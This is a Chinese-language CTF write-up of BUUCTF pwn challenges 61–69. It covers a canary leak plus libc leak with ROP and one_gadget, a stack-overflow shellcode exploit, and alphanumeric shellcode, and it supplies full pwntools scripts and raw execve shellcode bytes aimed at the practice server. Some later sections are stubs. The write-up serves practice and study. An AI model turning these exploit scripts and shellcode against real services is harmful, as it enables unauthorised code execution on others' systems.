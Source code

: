# buu刷题记录（61-80题）

by Maple

## 61 others_babystack

***canary+libc***

`checksec`一下

```shell
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/61/pwn'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```

NX保护，Canary保护，所以思路应该是泄露Canary，然后泄露libc，然后ROP

看下源码

```c
ssize_t sub_4008B9()
{
  sub_400826("--------");
  sub_400826("1.store");
  sub_400826("2.print");
  sub_400826("3.quit");
  sub_400826("--------");
  return sub_4007F7(">> ");
}
int sub_400841()
{
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v2; // [rsp+38h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(s, 0, 0x20uLL);
  if ( (int)read(0, s, 0x20uLL) <= 0 )
    exit(1);
  return atoi(s);
}
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  int v3; // eax
  char s[136]; // [rsp+10h] [rbp-90h] BYREF
  unsigned __int64 v6; // [rsp+98h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  memset(s, 0, 0x80uLL);
  while ( 1 )
  {
    sub_4008B9();
    v3 = sub_400841();
    switch ( v3 )
    {
      case 2:
        puts(s);                                // 回显Canary
        break;
      case 3:
        return 0LL;
      case 1:
        read(0, s, 0x100uLL);                   // 可以溢出
        break;
      default:
        sub_400826("invalid choice");
        break;
    }
    sub_400826(&unk_400AE7);
  }
}
```

是一个菜单，1对应输入，2对应输出（用puts）

所以canary截断泄露，libc用puts泄露，然后构造ROP

```python
from pwn import *
from struct import pack
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29212)

#--------Canary-------
payload = b'a'*(0x90-0x8)
p.recvuntil('>> ')
p.sendline('1')
p.sendline(payload)
p.recvuntil('>> ')
p.sendline('2')
p.recvuntil(b'a'*(0x90-0x8)+b'\n')
canary = u64(b'\x00'+p.recv(7))
log.info("canary:"+hex(canary))

#-------leak_libc------
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main = 0x400908
pop_rdi = 0x0000000000400a93
p.sendlineafter('>> ','1')
payload1 = b'a'*0x88+p64(canary)+b'b'*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(m
ain)
p.sendline(payload1)
p.sendlineafter('>> ','3')
puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = puts_addr-libc.symbols['puts']
log.info("libc_base"+hex(libc_base))

#---------getshell-------
p.sendlineafter('>> ','1')
one_gadget = libc_base+0x45216
payload2 = b'b'*0x88+p64(canary)+b'b'*0x8+p64(one_gadget)
p.sendline(payload2)
p.sendlineafter('>> ','3')
p.interactive()
```

*这边用的one_gadget,正常的ROP也是没有问题的*

## 62 pwnable_start

***shellcode***

`checksec`一下

```shell
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/62/pwn'
    Arch:       i386-32-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX disabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

保护全关

ida看一下，汇编写的

```assembly
public _start
_start proc near
push    esp
push    offset _exit
xor     eax, eax
xor     ebx, ebx
xor     ecx, ecx
xor     edx, edx
push    3A465443h
push    20656874h
push    20747261h
push    74732073h
push    2774654Ch
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
xor     ebx, ebx
mov     dl, 3Ch ; '<'
mov     al, 3
int     80h             ; LINUX -
add     esp, 14h
retn
```

扔给ai分析一下，read那里可以读入60字节，但是栈只有20字节，可以溢出

所以我们可以先给esp指的位置泄露出来，然后把那个地方写入shellcode并执行
```python
from pwn import *
context.arch = 'i386'
#p = process('./pwn')
p = remote('node5.buuoj.cn',25719)
payload = b'a'*20+p32(0x08048087)# ida里可以看到，这里对应的是	mov		ecx,esp
p.recvuntil(b':')
p.send(payload)
leak = u32(p.recv(4))
shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
#shellcode = asm(shellcraft.sh())
payload2 = b'a'*20+p32(leak+20)+shellcode
p.send(payload2)
p.interactive()
```

可以在[这里](http://shell-storm.org/shellcode/index.html)找一些合适的shellcode

## 63 gyctf_2020_borrowstack

直接看[这篇](https://www.cnblogs.com/ZIKH26/articles/15817337.html)吧

## 64 hitcontraining_heapcreator

施工中

## 65 ciscn_2019_n_3

## 69 mrctf2020_shellcode_revenge

#### 可见字符shellcode

可以学一下alpha3的使用

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'node5.buuoj.cn'
post = 29364
p = process('./pwn')
p = remote(host,post)
elf = ELF('./pwn')
#libc = ELF('./pwn')
#gdb.attach(p)

shellcode = asm(shellcraft.sh())
shellcode = "Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z
0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t"
p.send(shellcode)
p.interactive()
```

